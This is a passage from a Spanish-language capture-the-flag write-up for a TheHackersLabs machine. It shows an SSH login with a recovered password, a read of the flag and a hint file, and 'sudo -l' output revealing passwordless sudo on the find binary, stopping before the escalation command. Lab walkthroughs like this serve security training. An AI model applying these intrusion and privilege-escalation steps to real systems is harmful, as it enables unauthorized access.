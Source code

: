 La tenemos, ahora probemos esa contraseña:
```bash
ssh superadministrator@192.168.10.220
superadministrator@192.168.10.220's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-51-generic x86_64)
...
Last login: Fri Jan 10 17:42:22 2025
superadministrator@thehackerslabs-bocatacalamares:~$ whoami
superadministrator
```
Estamos dentro.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="find">Escalada de Privilegios con Permisos Sudoers sobre Binario find</h2>

Veamos qué archivos tiene este usuario:
```bash
superadministrator@thehackerslabs-bocatacalamares:~$ ls -la
total 32
drwxr-x--- 3 superadministrator superadministrator 4096 Jan 10  2025 .
drwxr-xr-x 4 root               root               4096 Jan  6  2025 ..
lrwxrwxrwx 1 root               root                  9 Jan 10  2025 .bash_history -> /dev/null
-rw-r--r-- 1 superadministrator superadministrator  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 superadministrator superadministrator 3771 Jan  6  2025 .bashrc
drwx------ 2 superadministrator superadministrator 4096 Jan 10  2025 .cache
-rw-r--r-- 1 root               root                 13 Jan 10  2025 flag.txt
-rw-r--r-- 1 superadministrator superadministrator  807 Jan  6  2025 .profile
-rw-r--r-- 1 root               root                125 Jan  9  2025 recordatorio.txt
```
Tenemos la flag y un mensaje.

Leamos ambos:
```bash
superadministrator@thehackerslabs-bocatacalamares:~$ cat flag.txt
...
superadministrator@thehackerslabs-bocatacalamares:~$ cat recordatorio.txt 
Me han dicho que existe una pagina llamada gtfobins muy util para ctfs, la dejo aquí apuntada para recordarlo mas adelante.
```
Bien, el mensaje del archivo **recordatorio.txt** es una pista sobre cómo escalar privilegios.

Veamos qué privilegios tiene este usuario:
```bash
superadministrator@thehackerslabs-bocatacalamares:~$ sudo -l
Matching Defaults entries for superadministrator on thehackerslabs-bocatacalamares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User superadministrator may run the following commands on thehackerslabs-bocatacalamares:
    (ALL) NOPASSWD: /usr/bin/find
```
Busquemos una forma de escalar privilegios usando el **binario find** con la **guía de GTFOBins**.
